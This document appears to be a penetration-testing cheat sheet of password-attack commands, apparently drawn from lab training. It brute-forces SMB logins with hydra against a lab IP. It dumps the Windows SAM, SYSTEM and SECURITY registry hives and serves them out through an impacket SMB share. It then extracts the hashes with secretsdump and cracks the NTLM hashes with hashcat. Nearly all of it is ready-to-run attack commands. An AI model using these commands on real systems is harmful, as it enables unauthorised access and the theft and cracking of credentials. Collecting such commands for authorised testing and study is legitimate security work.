 ## password attacks - remote - network services - smb bruteforce
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
hydra -<Ll> <user> -<Pp> <pass> smb://10.129.42.197
```

## password attacks - remote - network services - smb smbclient
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
smbclient -U <user> \\\\<target-ip>\\<SHARENAME>
```

## password attacks - local - SAM registry hives hklm/sam
#plateform/windows #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo "reg.exe save hklm\sam C:\sam.save"
```

## password attacks - local - SAM registry hives hklm/system
#plateform/windows #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo "reg.exe save hklm\system C:\system.save"
```

## password attacks - local - SAM registry hives hklm/security
#plateform/windows #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo "reg.exe save hklm\security C:\security.save"
```

## password attacks - remote - smbserver
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <sharename> <directoryPathToShare>
```

## password attacks - local - secretsdump dump hives
#plateform/linux #target/local #port/ #protocol/ #cat/ATTACK/
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

## password attacks - local - crack hashes NTLM from sam
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
sudo hashcat -m 1000 <hashesFile> <pathToWordlist>
```
